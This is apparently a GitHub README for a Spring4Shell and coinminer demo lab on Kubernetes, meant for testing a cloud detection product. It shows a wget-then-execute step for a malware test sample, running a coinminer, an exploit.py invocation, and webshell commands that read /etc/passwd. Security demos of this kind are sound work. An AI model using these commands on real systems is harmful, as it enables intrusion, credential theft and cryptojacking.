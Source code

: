 # Spring4Shell and Coinminer PoC


### STEP 1. https://github.com/reznok/Spring4Shell-POC 를 git clone
### STEP 2. clone 한 exploit.py 를 본 repo의 exploit.py로 교체
### STEP 3. docker build . -t spring4shell 로 빌드
### STEP 4. 아래 내용을 참고하여 실행 (kubectl apply -f xdr_for_cloud_demo.yaml)


## This is for testing and demo purpose
### Setup the vulnerable environment on GKE (Google Kubernetes Engine)
Apply for the provided YAML file:
```sh
$ kubectl apply -f xdr_for_cloud_demo.yaml
pod/jie-spring4shell-pod created
pod/vulmachine-pod created
service/jie-sprig4shell created
```
Once the the 2 pods and 1 services are created successfully, use the following command to check the STATUS:
```sh
$ kubectl get all
```
![WebPage](screenshots/getAll.png?raw=true)

Now, you have 2 vulnerable pods. One is for coinminer and another one is for Spring4Shell


### Use cases
#### Get the malware sample from Wildfire and execute it
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/sample
--2023-04-24 03:19:40--  http://wildfire.paloaltonetworks.com/publicapi/test/elf
Resolving wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)... 35.247.145.234
Connecting to wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)|35.247.145.234|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8608 (8.4K) [application/octet-stream]
Saving to: '/tmp/sample'

/tmp/sample                                100%[======================================================================================>]   8.41K  --.-KB/s    in 0s      

2023-04-24 03:19:40 (56.4 MB/s) - '/tmp/sample' saved [8608/8608]

root@vulmachine-pod:/# chmod +x /tmp/sample 
root@vulmachine-pod:/# ./tmp/sample
```

#### Execute the coinminer
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# ./tmp/coinminer
```

#### Exploit the Spring4Shell service
Check the output of the `kubectl get all` and find out the EXTERNAL-IP for your deployed service. Open your browser and connect to it.


![WebPage](screenshots/checkService.png?raw=true)

Once you see the above, you are good to exploit it.
```sh
$ python3 exploit.py --url "http://"your service external ip":8080/helloworld/greeting"
```
After above, websehll will be put on the server, you can use the following to execute the command to get id or /etc/passwd
```sh
$ http://"your service external ip":8080/webshell.jsp?cmd=id
$ http://"your service external ip":8080/webshell.jsp?cmd=cat%20/etc/passwd
$ http://"your service external ip":8080/webshell.jsp?cmd=whoami
```

## Credit
[@reznok](https://github.com/reznok/Spring4Shell-POC) for helping on building a spring4shell container image.
